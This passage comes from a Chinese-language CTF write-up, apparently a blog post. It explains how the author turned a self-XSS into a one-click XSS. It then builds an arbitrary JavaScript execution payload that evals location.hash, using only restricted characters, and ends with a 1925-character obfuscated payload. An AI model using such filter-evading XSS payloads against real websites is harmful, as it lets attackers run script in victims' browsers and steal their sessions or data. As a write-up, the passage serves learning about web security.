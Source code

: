 這樣子使用者點了網址之後 payload 就會自動填好，只要按按鈕就可以觸發。於是我們把 self-XSS 變成了 one-click XSS，點個按鈕就會中招。

做到這邊其實就通過這題了，但因為還有時間，所以我還想再研究更多東西。

## 執行任意程式碼

只是執行固定的程式碼不太好玩，有沒有可能執行任意程式碼？像是這種任意程式碼執行通常都會透過幾個方法把程式碼帶進去，例如說：

1. window.name
2. iframe + top.name
3. location.hash

這邊前兩者都需要自己再做另一個網頁，只有 location.hash 不需要，因此這邊就先以這個作法為主吧！

我們需要湊出的字串是：

``` js
[]['constructor']['constructor']`_${'eval(location.hash.slice(1))'}`` `
```

這樣只要讓網址最後面是：`#alert(document.domain)`，就可以達成一樣的效果了。

新的字元組合，缺少的只有兩個：v 跟 h。

這兩個其實不太好找，因為比較好找的已經都被我們找完了。那還有哪裡可以找呢？

首先是 v 的部分，其實可以把原生的 function 變成 string，就能拿到 `[native code]` 這個字串。但是在 Chrome 上與 Firefox 上的輸出不太一樣，以 RegExp 為例，

Chrome 的輸出是：`function RegExp() { [native code] }`
Firefox 的輸出是：`function RegExp() {\n    [native code]\n}`

Firefox 的輸出會換行而 Chrome 不會，這就造成了字元 index 的差異，所以沒辦法跨瀏覽器取得 v 這個字。不過我們先不管這個，先來看 h 好了。

h 一樣也是不容易取得，但如果我們能組出：`` 17['toString']`36` ``，其實就能拿到 h。

因為上面的程式碼就是把 17 這個數字轉成 36 進位，這樣就可以拿到 h，因為 h 是第 8 個英文字母（9 個數字 + 第 8 個英文字母 = 17）。

那這個大寫的 S 怎麼拿呢？String constructor 可以拿到：

``` js
``['constructor'] + ''
// output
// "function String() { [native code] }"
```

而且一旦我們可以用 toString 的這個技巧，其實任何小寫英文字母都可以拿到了，當然也包含前面所說的 v。

詳細過程我就不示範了，把程式改一下就好，最後的結果是（1925 個字）：

``` js
[][`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]][`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]]`_${`e`+31[`${``+{}}`[6]+`${``+{}}`[1]+`${``[`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]]}`[9]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[5]+`${``[0]}`[1]+`${e}`[15]]`36`+`${0/0}`[1]+`${e}`[21]+`${[][`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]]}`[14]+`${e}`[21]+`${``+{}}`[1]+`${``+{}}`[5]+`${0/0}`[1]+`${``+{}}`[6]+`${``[0]}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`.`+17[`${``+{}}`[6]+`${``+{}}`[1]+`${``[`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]]}`[9]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[5]+`${``[0]}`[1]+`${e}`[15]]`36`+`${0/0}`[1]+`${e}`[18]+17[`${``+{}}`[6]+`${``+{}}`[1]+`${``[`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]]}`[9]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[5]+`${``[0]}`[1]+`${e}`[15]]`36`+`.`+`${e}`[18]+`${e}`[21]+`${``[0]}`[5]+`${``+{}}`[5]+`e`+`${[][`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]]}`[14]+1+`${[][`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]]}`[15]+`${[][`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]]}`[15]}`` `
```
